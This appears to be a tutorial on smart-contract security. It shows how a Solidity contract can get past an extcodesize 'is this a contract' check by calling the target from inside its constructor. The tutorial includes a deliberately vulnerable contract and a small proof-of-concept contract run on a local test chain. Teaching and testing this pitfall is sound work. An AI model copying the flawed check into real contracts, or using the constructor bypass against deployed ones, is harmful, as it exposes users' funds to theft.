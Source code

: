 # 👿 isContract Manipulation
## The concept
There are two types of accounts in the Ethereum world.
1. EOA Externally Owned Accounts, these are users of wallets
2. Contracts, these are deployed smart contracts,

Sometimes there is a requirement to check if the caller is a EOA or a Contract.<br><br>
The code for this in solidity is to use inline assembly as below.<br><br>
```
assembly {
    contract_codesize := extcodesize(who_is_calling)
}
```
<br><br>
The code checks if the address at ```who_is_calling``` has code associated with it.<br><br>

There is a way to make a malicious contract seem as though there is no code associated with it, and that is by calling the vulnerable contract and function from within the malicious contract's constructor.<br><br>
Below is a vulnerable contract and a test contract to test this concept. We will be using anvil from the Foundry suite to deploy from Remix.<br><br>

```
// SPDX-License-Identifier: Unlicensed
pragma solidity 0.8.18;

contract VulnerableContract
{
    function notcontracts() public view returns (uint256 somethingReallyValuable)
    {
        //assume all checks are done
        uint256 contract_codesize;
        address who_is_calling;
        who_is_calling = msg.sender;
        //First check the extcodesize of the caller
        assembly {
            contract_codesize := extcodesize(who_is_calling)
        }
        if(contract_codesize > 0)
        {
            //THIS IS A CONTRACT CALLING SO THEY CAN'T GET OUR SUPER VALUABLE ASSET
            somethingReallyValuable = 0;
        }
        else
        {
            //THIS IS A USER CALLING SO THEY CAN GET ALL OF OUR SUPER VALUABLE ASSET
           somethingReallyValuable = type(uint256).max; 
        }
    }
}

contract testCodeSize{
    uint256 public allTheirValue;
    address public vulnerablecontract;

    //When the constructor runs the extcodesize is still 0
    //lets see what allTheirValue is after the constructor
    //allTheirValue should be uint256 Max value.
    constructor(address _vulnerablecontract){
        vulnerablecontract = _vulnerablecontract;
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }
    //This function should set allTheirValue to 0
    function wontWork() external {
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }


}
```

In the ```testCodeSize``` there is a variable called ```allTheirValue```, this will hold the value that is retrieved from the Vulnerable contract, if the call is able to bypass the check for code size we should see the ```allTheirValue``` variable holding a very large value, however if it fails the value should be "0". In the ```testCodeSize``` contract,  the call to ```VulnerableContract.notcontracts()``` is made from within the constructor and an external function called ```wontWork()```.<br><br>

Below are screenshots of the value held by ```allTheirValue``` after deployment and then after calling the ```wontWork()``` function.<br><br>

First deploy ```VulnerableContract```<br><br>
Copy the deployed address of ```VulnerableContract``` and deploy the ```testCodeSize``` contract<br><br>
Directly after the deployment of the ```testCodeSize``` contract, the value of the ```allTheirValue``` variable holds a really large value<br><br>
![valueofallTheirValue1](images/valueofallTheirValue1.png)<br><br>
After calling ```VulnerableContract.notcontracts()``` the value of the ```allTheirValue``` variable is now "0" as the ```testCodeSize``` contract now has code associated with it.<br><br>
![valueofallTheirValue2](images/valueofallTheirValue2.png)<br><br>
